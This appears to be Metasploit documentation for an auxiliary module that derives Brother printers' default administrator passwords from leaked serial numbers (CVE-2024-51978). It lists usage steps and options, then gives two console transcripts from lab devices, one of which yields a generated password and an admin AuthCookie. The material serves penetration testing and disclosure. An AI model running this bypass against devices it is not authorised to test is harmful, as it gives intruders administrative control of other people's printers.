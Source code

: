 ## Vulnerable Application

By leaking a target devices serial number, a remote attacker can generate the target devices default
administrator password. The target device may leak its serial number via unauthenticated HTTP, HTTPS, IPP,
SNMP, or PJL requests.

## Testing
Run the module against a vulnerable device (full list [here](https://www.cve.org/CVERecord?id=CVE-2024-51978)).
If the default password is correctly generated, the module will be able to verify this. 

The module will also report an HTTP cookie `AuthCookie` which can be used, for example via Burp's proxy feature, to
get access to an administrator session on the target devices web interface.

## Verification Steps

1. Start msfconsole
2. `use auxiliary/admin/misc/brother_default_admin_auth_bypass_cve_2024_51978`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `run`

## Options

### TargetSerial
A serial number to use for this target. If none is specified, the target will be queried via either HTTP, SNMP, or PJL
to discover the serial number (as per the `DiscoverSerialVia` option).

### DiscoverSerialVia
The technique to use to discover the serial number. Can be one of `AUTO`, `HTTP`, `SNMP`, or `PJL`. The default is `AUTO`.

### SaltLookupIndex
The index into the salt table to use when generating the default password. The default is `254`, which is the expected
value for Brother devices.

### SaltData
The salt data to use when generating the default password. By default, no salt data is required.

### ValidatePassword
Validate the default password by attempting to login. By default, this is set to `true`.

## Scenarios

_Note: In these example scenarios, the leaked serial numbers have been redacted with `***************`._

### MFC-L9570CDW

In this example, the target `MFC-L9570CDW` device was running the latest firmware at the time of testing (June 20, 2025),
whereby the `MAIN` version was `ZQ2503251054`, and the `SUB1` version was `1.35`. We can note that while the serial
number could not be leaked via HTTPS (via CVE-2024-51977), we were able to leak the serial number via SNMP and then
proceed to generate the correct default administrator password. The module validated that this password value is still
the default administrator password for the device.

```
msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > set VERBOSE true
VERBOSE => true
msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > set RHOSTS 192.168.86.62
RHOSTS => 192.168.86.62
msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > show options 

Module options (auxiliary/admin/misc/brother_default_admin_auth_bypass_cve_2024_51978):

   Name               Current Setting            Required  Description
   ----               ---------------            --------  -----------
   COMMUNITY          public                     yes       SNMP Community String
   PJL_RPORT          9100                       yes       The target port number for PJL
   Proxies                                       no        A proxy chain of format type:host:port[,type:host:port][...]. Supported p
                                                           roxies: sapni, socks4, socks5, socks5h, http
   RETRIES            1                          yes       SNMP Retries
   RHOSTS             192.168.86.62              yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                                           /basics/using-metasploit.html
   RPORT              443                        yes       The target port (TCP)
   SNMP_OID_SERAILNO  1.3.6.1.2.1.43.5.1.1.17.1  yes       The SNMP OID for the serial number
   SNMP_RPORT         161                        yes       The target port number for SNMP
   SSL                true                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                          yes       The base URI path to the web admin console
   TIMEOUT            1                          yes       SNMP Timeout
   VERSION            1                          yes       SNMP Version <1/2c>
   VHOST                                         no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > run
[*] Running module against 192.168.86.62
[*] Attempting to leak serial number via HTTP
[-] Unexpected HTTP response code: 302
[*] Attempting to leak serial number via SNMP
[*] Leaked target serial number via SNMP: ***************
[*] Generating default password with salt lookup index 254 and salt data 7HOLDhk'
[*] Generated password value: r/5LM&U>
[*] Attempting to validate password
[*] Received an AuthCookie value: bi56MaYmMOhcwuH8miqCW5YvSGqKRqr8EOgiAr0yA20%3D
[+] Successfully validated the administrator password: r/5LM&U>
[*] Auxiliary module execution completed
msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) >
```

### DCP-L2530DW

In this example, the target `DCP-L2530DW` device was running the following firmware version, whereby the `MAIN` version
was `ZC2403082049`, and the `SUB1` version was `1.04`. We can note that the serial number was successfully leaked via
HTTPS (via CVE-2024-51977), however the password value generated was not the devices default password, so validation
did not succeed.

```
msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > set RHOSTS 192.168.86.3
RHOSTS => 192.168.86.3
msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > show options 

Module options (auxiliary/admin/misc/brother_default_admin_auth_bypass_cve_2024_51978):

   Name               Current Setting            Required  Description
   ----               ---------------            --------  -----------
   COMMUNITY          public                     yes       SNMP Community String
   PJL_RPORT          9100                       yes       The target port number for PJL
   Proxies                                       no        A proxy chain of format type:host:port[,type:host:port][...]. Supported p
                                                           roxies: sapni, socks4, socks5, socks5h, http
   RETRIES            1                          yes       SNMP Retries
   RHOSTS             192.168.86.3               yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                                           /basics/using-metasploit.html
   RPORT              443                        yes       The target port (TCP)
   SNMP_OID_SERAILNO  1.3.6.1.2.1.43.5.1.1.17.1  yes       The SNMP OID for the serial number
   SNMP_RPORT         161                        yes       The target port number for SNMP
   SSL                true                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                          yes       The base URI path to the web admin console
   TIMEOUT            1                          yes       SNMP Timeout
   VERSION            1                          yes       SNMP Version <1/2c>
   VHOST                                         no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > run
[*] Running module against 192.168.86.3
[*] Attempting to leak serial number via HTTP
[*] Leaked target serial number via HTTP: ***************
[*] Generating default password with salt lookup index 254 and salt data 7HOLDhk'
[*] Generated password value: pX-KDn3+
[*] Attempting to validate password
[-] Failed to login with the administrator password: pX-KDn3+
[*] Auxiliary module execution completed
msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) >
```
